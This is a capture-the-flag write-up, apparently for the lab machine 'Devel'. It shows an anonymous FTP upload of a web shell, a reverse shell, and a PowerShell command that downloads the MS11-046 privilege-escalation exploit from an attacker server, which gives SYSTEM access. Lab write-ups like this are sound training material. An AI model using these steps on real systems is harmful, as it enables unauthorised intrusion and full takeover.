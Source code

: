 
# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:~# nmap 10.10.10.5 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 11:10 EDT
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:11 (0:00:06 remaining)
Nmap scan report for 10.10.10.5
Host is up (0.29s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
From the above output we can see that ports, **21** and **80** are open.

Let's try to connect to ftp

```console
root@kali:~# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> passiv



150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Here it is seen that ftp allows anonymous login. Let's go ahead and check if ftp allows the 'PUT' command.

![FTP](./Devel/Screenshot_3.png)
{**Figure 1:** Server runs on asp.net)

Idea is to craft a aspx payload and to deliver to the box using ftp PUT command.

We craft payload using msfvenom

![Msfvenom](./Devel/Screenshot_8.png)
(**Figure 2:** Msfvenom)

Delivering the payload
```console
ftp> put shell.asp
local: shell.asp remote: shell.asp
227 Entering Passive Mode (10,10,10,5,192,7).
125 Data connection already open; Transfer starting.
226 Transfer complete.
346 bytes sent in 0.00 secs (1.8748 MB/s)
````

Listening to netcat on port 4444 to catch the shell.

![Netcat](./Devel/Screenshot_4.png)
{**Figure 3:** Netcat listener)

# Exploitation  

Open the ip on the browser and navigate to the payload we delivered on the server.

![Payload](./Devel/Screenshot_5.png)
{**Figure 4:** Payload)

![Shell](./Devel/Screenshot_6.png)
{**Figure 5:** We got a reverse shell!)

![Low Shell](./Devel/Screenshot_7.png)
{**Figure 6:** Shell is a low privileged one)

Shell is a low privilged one, now for privesc.

#Privilege Escalation

![Sysinfo](./Devel/Screenshot_20.png)
{**Figure 7:** Here we see that the machine is running windows 7 build 7600)

Searching google for local prives for windows 7 reveals privesc payload. Next we download that and deliver it to the machine.

![Google](./Devel/Screenshot_19.png)
{**Figure 8:** Local Privesc)

We need to compile the file, all the instructions are in the payload file itself.

After the compilation we could deliver the payload either using ftp or using powershell. Here let's use powershell

Open a server on port 9005 using python

```console
python -m SimpleHTTPServer 9005
```

On the machine shell, type in the command to get a file using powershell
```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:9005/MS11-046.exe', 'c:\Users\Public\Downloads\MS46.exe')"
```

Exec the executable file

```console
c:\Users\Public\Downloads>MS46.exe
MS46.exe
```

```console
c:\Windows\System32>whoami
whoami
nt authority\system
```


## User Flag

In order to get the user flag, we change the directory to the user Desktop 'babis' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
This box could also be solved using msfconsole, catch the shell using meterpreter with the apsx payload, once the shell is acquired background it and run local_exploit_suggester on the session and run the exploit which the 

